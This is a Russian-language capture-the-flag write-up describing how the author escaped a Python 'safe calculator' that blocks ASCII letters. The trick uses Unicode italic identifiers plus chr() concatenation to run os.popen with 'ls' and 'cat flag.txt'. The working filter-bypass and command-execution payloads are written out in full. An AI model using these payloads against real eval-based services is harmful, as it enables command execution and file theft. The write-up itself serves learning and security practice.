


# Безопасный калькулятор: Write-up #
Как и прошлый калькулятор, открываем этот через `netcat`:

    $ nc 62.173.140.174 10001

В отличие от прошлого калькулятора, в этом заблокировали все `ascii-letters`, что проверяется довольно просто:

    >>> print
    HACK ATTEMPTED!!!
[Здесь](https://theasciicode.com.ar/) можно посмотреть, что заблокировано: 65-90 и 97-122 символы.
Честно говоря, долго я возился на этом моменте, в основном пытался скормить октальные символы (aka `\123\131\111` и т.п.). Хотелось воспользоваться хинтом, но сначала он мне казался полностью лишённым смысла:
> Думаю тебе стоит спросить у Итальянцев о том, как они пишут код)))

Интернет выдавал лишь это:

А потом допёрло: `"итальянский код" == "italian code" ≈≈ "italic code" == "курсивный код"`. Воспользовавшись [генератором](https://capitalizemytitle.com/italic-text-generator/), попробовал следующее:

    >>>𝘱𝘳𝘪𝘯𝘵
    <built-in function print>

Осталось дело за малым - сформировать пэйлоад:
    
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__("𝘰𝘴").𝘱𝘰𝘱𝘦𝘯("𝘭𝘴").𝘳𝘦𝘢𝘥()
    No module named '𝘰𝘴'
А вот тут загвоздка: мы можем вызывать функции, но не можем писать строки, они будут курсивные (нехорошие). Так что придётся каждый символ писать через функцию `chr()`, так что "os" == chr(111)+chr(115). То же и с командой. Так что ввод будет следующим:
    
    # __import__("os").popen("ls").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(108)+𝘤𝘩𝘳(115)).𝘳𝘦𝘢𝘥()
    flag.txt
    requirements.txt
    service.py

Читаем флаг (ох уж эта посимвольная пытка):

    # __import__("os").popen("cat flag.txt").read()
    >>> __𝘪𝘮𝘱𝘰𝘳𝘵__(𝘤𝘩𝘳(111)+𝘤𝘩𝘳(115)).𝘱𝘰𝘱𝘦𝘯(𝘤𝘩𝘳(99)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(116)+" "+𝘤𝘩𝘳(102)+𝘤𝘩𝘳(108)+𝘤𝘩𝘳(97)+𝘤𝘩𝘳(103)+"."+𝘤𝘩𝘳(116)+𝘤𝘩𝘳(120)+𝘤𝘩𝘳(116)).𝘳𝘦𝘢𝘥()
    CODEBY{************}

P.S. Как и в калькуляторе, тем же способом сдампил [service.py](writeup/service.py), смотрите на здоровье))
